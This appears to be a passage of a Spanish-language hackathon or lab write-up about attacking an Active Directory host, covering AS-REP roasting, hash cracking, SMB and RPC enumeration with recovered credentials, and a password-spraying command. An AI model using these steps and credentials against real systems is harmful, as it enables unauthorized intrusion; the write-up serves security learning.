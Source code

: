 Mirando el FB podemos obtener una lista de posibles usuarios para autenticarnos frente al servicio smb.


->AS-REP-ROASting attack
![Image](Pasted%20image%2020220521184453.png?raw=true)
Rompemos el hash obtenido.
![Image](Pasted%20image%2020220521184725.png?raw=true)

En este punto ya tenemos unos credenciales de usuario:
>ffuertes:electrica@1984

Enumeramos los accesos del usuario:
`smbmap -H geohome.com -u ffuertes -p electrica@1984`
`smbmap -H geohome.com -u ffuertes -p electrica@1984 -r`
![Image](Pasted%20image%2020220521185456.png?raw=true)



Usando rpcclient enumeramos usuarios:
`rpcclient -U "ffuertes" geohome.com`
```text
(base) ┌──(kali㉿kali)-[~/Desktop/Hackathon]
└─$ rpcclient -U "ffuertes" geohome.com                                                                                                                                                                                                                                               1 ⨯
Enter WORKGROUP\ffuertes's password:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[pcasimiro] rid:[0x463]
user:[eescalera] rid:[0x464]
user:[nybanez] rid:[0x465]
user:[mcoronado] rid:[0x466]
user:[rsaiz] rid:[0x467]
user:[ssoriano] rid:[0x468]
user:[ecasas] rid:[0x469]
user:[tsabater] rid:[0x46a]
user:[sguerrero] rid:[0x46b]
user:[jenriques] rid:[0x46c]
user:[ngisbert] rid:[0x46d]
user:[malvaro] rid:[0x46e]
user:[ffuertes] rid:[0x46f]
user:[svc-spooler] rid:[0x470]
```
Estos usuarios nuevos no son vulnerables a un ataque AS-REP-ROASting. Así que continuamos con ffuertes.

Listamos propiedades de los usuarios.
```
rpcclient -U "ffuertes" geohome.com
queryuser nybanez
```
![Image](Pasted%20image%2020220521191929.png?raw=true)
Ahí tenemos lo que parece una contraseña que deberemos probar con cada uno de los usuarios:
>The3rdQinDinastyThermOs?
`crackmapexec smb geohome.com -u users_rpc -p "The3rdQinDinastyThermOs?"`
